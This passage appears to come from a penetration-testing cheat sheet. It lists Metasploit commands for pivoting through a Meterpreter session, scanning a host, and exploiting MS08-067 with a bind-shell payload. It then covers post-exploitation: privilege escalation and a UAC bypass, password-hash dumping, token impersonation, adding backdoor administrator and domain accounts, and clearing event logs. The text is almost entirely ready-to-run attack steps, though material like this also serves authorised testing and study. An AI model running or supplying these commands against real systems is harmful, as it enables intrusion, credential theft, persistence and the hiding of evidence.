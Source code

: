 ```
10.0.0.20

```
```
meterpreter > background
route add 10.0.0.1 255.255.255.0 x            Where x is the meterpreter session number.
route print
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.0.20
set PORTS 1-200
set THREADS 255
exploit
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.0.0.20
set PAYLOAD windows/meterpreter/bind_tcp
exploit
```
------------------------------------------------------------------------------------------------------

### Meterpreter - Post Exploitation
```
ipconfig                                      Look for dual-homed connections.
     autoroute -s <new CIDR range>            If dual-homed.
     autoroute -p                             Print routing table.
netstat

getpid                                        Show the current process ID.
ps                                            Show running processes.
migrate                                       Create a new process and migrate to it.
migrate <pid>                                 Migrate to a specific process.

sysinfo                                       Show system info.
getuid                                        Show current privileges.

     getprivs                                 Escalate privileges if not NT AUTHORITY\SYSTEM.
     getsystem                                If this fails: run post/windows/escalate/bypassuac.
     getuid                                   Privileges should now be NT AUTHORITY\SYSTEM.

screenshot                                    Take a photo of the desktop.

hashdump                                      Dump password hashes.

enum_logged_on_users
search -d c:\\documents\ and\ settings\\<user>\\ -f *.pdf

run getgui -u hacker -p password

use incognito
list_tokens -u
impersonate_token <domain>\\<user>

shell
route
net user                                      List local users.
net accounts                                  List local password policy.
net user hacker password /add /domain         Try to add a new domain account.
net user hacker password /add                 Add a new local account.
net localgroup Administrators hacker /add     Add new account to the local Administrators Security Group
net localgroup Administrators                 Verify account is in the group.
clearev                                       Clear event logs.
```
------------------------------------------------------------------------------------------------------
